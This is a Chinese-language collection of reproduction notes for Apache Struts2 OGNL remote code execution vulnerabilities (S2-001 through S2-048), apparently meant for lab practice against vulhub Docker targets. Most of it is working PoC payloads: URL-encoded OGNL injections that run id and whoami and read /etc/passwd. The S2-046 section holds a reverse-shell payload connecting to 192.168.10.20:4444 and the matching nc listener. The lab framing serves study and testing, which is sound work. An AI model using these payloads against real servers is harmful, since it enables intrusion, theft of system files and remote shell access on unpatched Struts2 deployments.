

# Struts2 系列命令执行漏洞集合

## S2-001

该漏洞是由于 WebWork 2.1+ 和 Struts 2 的 `altSyntax` 特性引起的。 `altSyntax` 特性允许将 OGNL 表达式插入文本字符串并进行递归处理。这允许恶意用户通过 HTML 文本字段提交一个包含 OGNL 表达式的字符串，**如果表单验证失败，服务器将执行该表达式。**

### 影响版本

- [x] WebWork 2.1 (with altSyntax enabled)
- [x] WebWork 2.2.0 - 2.2.5
- [x] Struts 2.0.0 - 2.0.8

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-001
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


在输入框中输入 OGNL 表达式 `%{1+1}` ，点击提交，测试以下是否会执行表达式，查看如下页面


在输入框中输入如下 OGNL 表达式获取 Tomcat 的路径，点击提交，查看如下页面

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```


在输入框中输入如下 OGNL 表达式获取当前站点的真实路径，点击提交，查看如下页面

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```


在输入框中输入如下 OGNL 表达式执行 `whoami` 命令，点击提交，查看如下页面

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```


在输入框中输入如下 OGNL 表达式执行 `cat /etc/passwd` 命令，点击提交，查看如下页面

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```


## S2-005

s2-005 漏洞的起源源于 s2-003（受影响版本：低于 Struts2.0.12），struts2 会将 http 的每个参数名解析为 OGNL 语句执行（可理解为 Java 代码）。OGNL 表达式通过 `#` 来访问 struts 的对象，struts 框架通过过滤 `#` 字符防止安全问题，然而通过 unicode 编码（ `\u0023` )或 8 进制（ `\43` ）即绕过了安全限制，对于 S2-003 漏洞，官方通过增加安全配置（禁止静态方法调用和类方法执行等）来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用 OGNL 表达式将这两个选项打开，S2-003 的修补方式把自己上了一个锁，但是把钥匙插在了锁头上。漏洞触发源于 ParameterInterceptor 拦截器中，可通过构造参数绕过正则限制从而执行 OGNL 表达式。

绕过过程大致分为三步：

1. 在 S2-003 中 `\u0023` 用于绕过 struts2 的过滤器 `#`
2. 在 S2-003 struts2 添加安全模式（沙盒）之后
3. 在 S2-005 中，使用 OGNL 表达式关闭安全模式并再次绕过

### 影响版本

- [x] Struts 2.0.0 - 2.1.8.1

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-005
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


无回显命令执行 PoC (GET)

```
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```


有回显命令执行 PoC (POST)

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: 192.168.10.10:8080
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

???+ tip "最好将需要执行的命令进行 urlencode 编码"

     `cat /etc/passwd` -> `%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64`


## S2-007

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析，从而造成远程代码执行。

例如 age 是来自于用户输入，但是传递了一个非整数而导致错误，struts 会将用户的输入当作 OGNL 表达式执行，从而导致了漏洞。

### 影响版本

- [x] Struts 2.0.0 - 2.2.3

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-007
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面，在 age 输入框中输入非整数字符，点击提交，此时如果输入不正确的数据类型，会校验失败并提示，如下图


任意命令执行 PoC，执行 `id` 命令

```
name=a&email=a&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29+%2B+%27
```


任意命令执行 PoC，执行 `cat /etc/passwd` 命令

```
name=a&email=a&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29+%2B+%27
```


## S2-008

S2-008 还是对 S2-003 的绕过，通过 S2-003/S2-005 ，Struts 2 为了阻止攻击者在参数中植入恶意 OGNL，设置了 `xwork.MethodAccessor.denyMethodExecution` 以及 `SecurityMemberAccess.allowStaticMethodAccess` ，并使用白名单正则 `[a-zA-Z0-9\.][()_']+` 来匹配参数中的恶意调用，但是在一些特殊情况下，这些防御还是可以被绕过。Cookie 拦截器错误配置可造成 OGNL 表达式执行；在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令；官方文档提出了 4 种绕过防御的手段，其中关注比较多的是 devMode 模式导致的绕过。

### 影响版本

- [x] ，Struts 2.1.0 - 2.3.1

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-008
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


devMode 模式导致的 RCE, PoC 如下

```
/devmode.action?debug=command&expression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
```


## S2-009

ParametersInterceptor 拦截器只检查传入的参数名是否合法，不会检查参数值。因此可先将 Payload 设置为参数值注入到上下文中，而后通过某个特定语法取出来就可以执行之前设置过的 Payload。

OGNL 提供了广泛的表达式评估功能等功能。该漏洞允许恶意用户绕过 ParametersInterceptor 内置的所有保护（正则表达式，拒绝方法调用），从而能够将任何暴露的字符串变量中的恶意表达式注入进行进一步评估。
在 S2-003 和 S2-005 中已经解决了类似的行为，但事实证明，基于列入可接受的参数名称的结果修复仅部分地关闭了该漏洞。
ParametersInterceptor 中的正则表达式将 top ['foo']（0）作为有效的表达式匹配，OGNL 将其作为（top ['foo']）（0）处理，并将“foo”操作参数的值作为 OGNL 表达式求值。这使得恶意用户将任意的 OGNL 语句放入由操作公开的任何 String 变量中，并将其评估为 OGNL 表达式，并且由于 OGNL 语句在 HTTP 参数中，攻击者可以使用黑名单字符（例如＃）禁用方法执行并执行任意方法，绕过 ParametersInterceptor 和 OGNL 库保护。

### 影响版本

- [x] Struts 2.1.0 - 2.3.1.1

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-009
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
/showcase.action/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]

```


任意文件读取 PoC，读取 `/etc/passwd` 文件

```
/showcase.action/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27cat%20/etc/passwd%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```


## S2-012

漏洞触发原理与 S2-001 类似，对 %{} 表达式进行了循环解析。

在 struts.xml 中配置成如下，这里 `UserAction` 中定义有一个 `name` 变量，当触发 `redirect` 类型返回时，Struts2 获取使用 `${name}` 获取其值，在这个过程中会对 `name` 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

```xml title="struts.xml"
<package name="S2-012" extends="struts-default">
	<action name="user" class="com.demo.action.UserAction">
		<result name="redirect" type="redirect">/index.jsp?name=${name}</result>
		<result name="input">/index.jsp</result>
		<result name="success">/index.jsp</result>
	</action>
</package>
```

### 影响版本

- [x] Struts 2.1.0 - 2.3.13
- [x] Struts Showcase App 2.0.0 - 2.3.14.2

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-012
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
%25%7B%23a%3D(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew java.io.InputStreamReader(%23b)%2C%23d%3Dnew java.io.BufferedReader(%23c)%2C%23e%3Dnew char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```


任意命令执行 PoC，读取 `/etc/passwd` 文件

```
%25%7B%23a%3D(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew java.io.InputStreamReader(%23b)%2C%23d%3Dnew java.io.BufferedReader(%23c)%2C%23e%3Dnew char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```


## S2-013

Struts2 标签中 <s:a> 和 <s:url> 都包含一个 includeParams 属性，其值可设置为 none，get 或 all。<s:a>用来显示一个超链接，当 includeParams=all 的时候，会将本次请求的 GET 和 POST 参数都放在 URL 的 GET 参数上。在放置参数的过程中会将参数进行 OGNL 渲染，造成任意命令执行漏洞。

例如 vulhub 靶场中的 index.js 文件中有如下代码：



### 影响版本

- [x] Struts 2.0.0 - 2.3.14.1

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-013
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```


任意命令执行 PoC，读取 `/etc/passwd` 文件

```
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```


## S2-015

Struts2 返回结果时，将用户可控的参数拿来解析，就会导致漏洞。S2-015 官方公告公布了两种漏洞利用方式，一种是通配符匹配 action ，一种是在 struts.xml 中使用 `${}` 引用 Action 变量导致的二次解析。

在使用 struts2 时，每一个 action 都需要配置，每一个 action 里面的方法以及其返回到的界面都需要配置，如果一个一个配置，就太麻烦了，因此可以约定一些命名规范，然后在 struts.xml 里面使用通配符进行配置。

在 Struts2 中可以使用通配符 `*` 来匹配 action，并使用 `{1}` 来获取 `*` 的值，这有点像正则的匹配模式，如下配置：


其中还可以使用多个 `*` 进行匹配，例如：`*_*`，这样就可以使用 `{1}` 和 `{2}` 来获取其中的值。

### 影响版本

- [x] Struts 2.0.0 - 2.3.14.2

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-015
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream())%2C%23q%7D.action
```

## S2-016

Struts2 提供了在参数中使用 `action:`、`redirect:`、`redirectAction:` 前缀指定应用程序重定向路径或 action 的功能，处理重定向结果时没有过滤直接使用 OGNL 解析道导致出现漏洞。

### 影响版本

- [x] Struts 2.0.0 - 2.3.15

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-016
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
/index.action?redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
```


## S2-019

要求开发者模式，且 PoC 第一个参数是 `debug`，触发点在 `DebuggingInterceptor` 上，查看 `intercept` 函数，从 `debug` 参数获取调试模式，如果模式是 `command`，则把 `expression` 参数放到 `stack.findValue` 中，最终放到了 `ognl.getValue` 中。

### 影响版本

- [x] Struts 2.0.0 - 2.3.15.1

### 漏洞复现

运行靶场

```bash
docker run -d -p 8888:8080 medicean/vulapps:s_struts2_s2-019
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

编码前

```
?debug=command&expression=#a=(new java.lang.ProcessBuilder('id')).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b)
,#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#out=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRe
sponse'),#out.getWriter().println('dbapp:'+new java.lang.String(#e)),#out.getWriter().flush(),#out.getWriter().close()
```

url 编码后

```
?%64%65%62%75%67=%63%6f%6d%6d%61%6e%64&%65%78%70%72%65%73%73%69%6f%6e=%23%61%3d%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%27%69%64%27%29%29%2e%73%74%61%72%74%28%29%2c%23%62=%23%61%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%63=%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%23%62%29%2c%23%64%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%23%63%29%2c%23%65=%6e%65%77%20%63%68%61%72%5b%35%30%30%30%30%5d%2c%23%64%2e%72%65%61%64%28%23%65%29%2c%23%6f%75%74=%23%63%6f%6e%74%65%78%74%2e%67%65%74%28%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%64%69%73%70%61%74%63%68%65%72%2e%48%74%74%70%53%65%72%76%6c%65%74%52%65%73%70%6f%6e%73%65%27%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%70%72%69%6e%74%6c%6e%28%27%64%62%61%70%70%3a%27%2b%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%23%65%29%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%66%6c%75%73%68%28%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%63%6c%6f%73%65%28%29
```


## S2-029

Struts2 的标签库使用 OGNL 表达式来访问 `ActionContext` 中的对象数据。为了能够访问到 `ActionContext` 中的变量，Struts2 将 `ActionContext` 设置为 OGNL 的上下文，并将 OGNL 的跟对象加入 `ActionContext` 中。

在 Struts2 中，如下的标签就调用了 OGNL 进行取值:

```xml
<p>parameters: <s:property value="#parameters.msg" /></p>
```

Struts2 会解析 value 中的值，并当作 OGNL 表达式进行执行，获取到 `parameters` 对象的 `msg` 属性。S2-029 依然是依靠 OGNL 进行远程代码执行。

### 影响版本

- [x] Struts 2.0.0 - 2.3.24.1 (except 2.3.20.3)

### 漏洞复现

运行靶场

```bash
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-029
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
/default.action?message=(%23_memberAccess[%27allowPrivateAccess%27]=true,%23_memberAccess[%27allowProtectedAccess%27]=true,%23_memberAccess[%27excludedPackageNamePatterns%27]=%23_memberAccess[%27acceptProperties%27],%23_memberAccess[%27excludedClasses%27]=%23_memberAccess[%27acceptProperties%27],%23_memberAccess[%27allowPackageProtectedAccess%27]=true,%23_memberAccess[%27allowStaticMethodAccess%27]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream()))
```


## S2-032

在 DMI 开启时，使用 `method` 前缀可以导致任意代码执行漏洞。当启用动态方法调用时，可以传递可用于在服务器端执行任意代码的恶意表达式。 `method:Action` 前缀去调用声明为 `public` 的函数，只不过在低版本中 Strtus2 不会对 `name` 方法值做 OGNL 计算，而在高版本中会。

### 影响版本

- [x] Struts 2.3.20 - 2.3.28 (2.3.20.3 和 2.3.24.3 除外)

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-032
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```


任意命令执行 PoC，读取 `/etc/passwd` 文件

```
/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat%20/etc/passwd
```


## S2-045

在使用基于 Jakarta 插件的文件上传功能时，有可能存在远程命令执行。恶意用户可在上传文件时通过修改 HTTP 请求头中的 Content—Type 值来触发该漏洞，进而执行系统命令。

### 影响版本

- [x] Struts 2.3.5 – 2.3.31
- [x] Struts 2.5 – 2.5.10

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


任意命令执行 PoC，执行 `id` 命令

```
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```


任意命令执行 PoC，读取 `/etc/passwd` 文件

```
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```


## S2-046

攻击者通过设置 `Content-Disposition` 的 `filename` 字段或者设置 `Content-Length` 超过 2G 这两种方式来触发异常并导致 `filename` 字段的 OGNL 表达式得到执行从而达到远程攻击的目的。该漏洞与 S2-045 漏洞成因一样，只是漏洞利用的字段发生了改变。

S2-045 是在 `Content-Type` 值注入 ognl 表达式从而引起解析异常，S2-046 则是在上传文件的 `Content-Disposition` 中的 `filename` 参数存在空字节，在检查时抛出异常，从而进入 `buildErrorMessage()` 方法。实则 S2-045 和 S2-046 漏洞原理相同。

### 影响版本

- [x] Struts 2.3.5 - 2.3.31
- [x] Struts 2.5 - 2.5.10

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-046
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


利用 filename 参数触发漏洞，添加 HTTP Header 参数，将 `filename` 参数的值设置为如下内容，然后再 Hex 模式下进行 00 截断

```
filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',1+99)}\x00b"
```


反弹 Shell，与上一步的方法相同，将 `filename` 参数的值设置为如下内容，然后再 Hex 模式下进行 00 截断

```
filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/192.168.10.20/4444 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} b"
```


其中 192.168.10.20/4444 为 kali 的 IP 地址和端口。同时在 kali 上监听端口

```bash
nc -lvnp 4444
```


## S2-048

Apache Struts2 2.3.x 系列启用了 `struts2-struts1-plugin` 插件并且存在 `struts2-showcase` 目录,其漏洞成因是当 `ActionMessage` 接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行。

### 影响版本

- [x] Struts 2.3.x with Struts 1 plugin and Struts 1 action

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-048
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面


## Tools

- [K8 Struts2 EXP 综合漏洞利用工具](https://k8gege.org/p/ab3e87f7.html)

## Ref

- [Struts2 漏洞复现集合-Freebuf](https://www.freebuf.com/articles/web/280245.html)
- [Struts2 漏洞集合分析与梳理-跳跳糖](https://tttang.com/archive/1583/#toc_0x00-s2-001)
- [Struts2 系列漏洞调试总结-素十八](https://su18.org/post/struts2-5/)
